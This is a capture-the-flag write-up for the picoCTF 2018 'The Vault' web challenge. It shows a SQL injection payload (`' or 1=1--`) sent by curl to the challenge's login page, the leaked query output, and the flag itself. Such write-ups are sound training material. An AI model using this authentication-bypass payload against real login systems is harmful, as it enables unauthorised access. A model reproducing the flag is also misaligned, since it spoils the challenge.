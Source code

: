 # The Vault
Web Exploitation - 250 points

## Challenge 
> There is a website running at http://2018shell2.picoctf.com:64349. Try to see if you can login!


## Solution

Source code is provided on the website, [login.txt](login.txt)

Simple SQL injection using payload of `' or 1=1--`

	$ curl http://2018shell2.picoctf.com:64349/login.php --data "username=derp&password=' or 1=1--&debug=1"

	<pre>username: derp
	password: ' or 1=1--
	SQL query: SELECT 1 FROM users WHERE name='derp' AND password='' or 1=1--'
	</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{w3lc0m3_t0_th3_vau1t_e4ca2258}</p>


## Flag

	picoCTF{w3lc0m3_t0_th3_vau1t_e4ca2258}